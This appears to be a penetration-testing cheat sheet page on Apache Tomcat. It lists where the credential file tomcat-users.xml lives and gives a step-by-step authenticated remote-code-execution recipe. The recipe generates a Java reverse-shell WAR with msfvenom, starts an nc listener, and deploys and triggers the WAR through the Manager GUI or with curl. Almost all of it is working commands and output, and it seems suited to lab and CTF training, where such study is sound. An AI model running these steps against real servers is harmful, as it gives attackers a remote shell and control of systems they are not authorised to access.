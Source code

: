 ```yaml
---
title: "Apache Tomcat"
date: 2025-7-25
tags: ["Web Exploitation", "Tomcat", "Apache", "Web Server", "War", "Java", "RCE"]
---
```


### Config Location

```console
/usr/share/tomcat9/etc/tomcat-users.xml
```

```console
/etc/tomcat9/tomcat-users.xml
```

---

### RCE (Authenicated)

#### 1. Create a WAR File

```console
msfvenom -p java/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f war -o revshell.war
```

```console {class="sample-code"}
$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.31 LPORT=1337 -f war -o revshell.war
Payload size: 13029 bytes
Final size of war file: 13029 bytes
Saved as: revshell.war
```

#### 2. Start a Listener

```console
rlwrap nc -lvnp <LOCAL_PORT>
```

```console {class="sample-code"}
$ rlwrap nc -lvnp 1337 
listening on [any] 1337 ..
```

{{< tab set1 tab1 >}}3a. Manager GUI{{< /tab >}}
{{< tab set1 tab2 >}}3b. Manager Script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
+--------------------------------------------+
| Exploit                                    |
+--------------------------------------------+
| 1. Login to Tomcat Web Application Manager |
| 2. WAR file to deploy -> Deploy            |
| 3. Click /revshell in Applications table   |
+--------------------------------------------+
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
curl -u '<USER>:<PASSWORD>' http://<DOMAIN>:8080/manager/text/deploy?path=/revshell --upload-file revshell.war
```

```console
curl -s http://<DOMAIN>:8080/revshell
```

{{< /tabcontent >}}

<br>
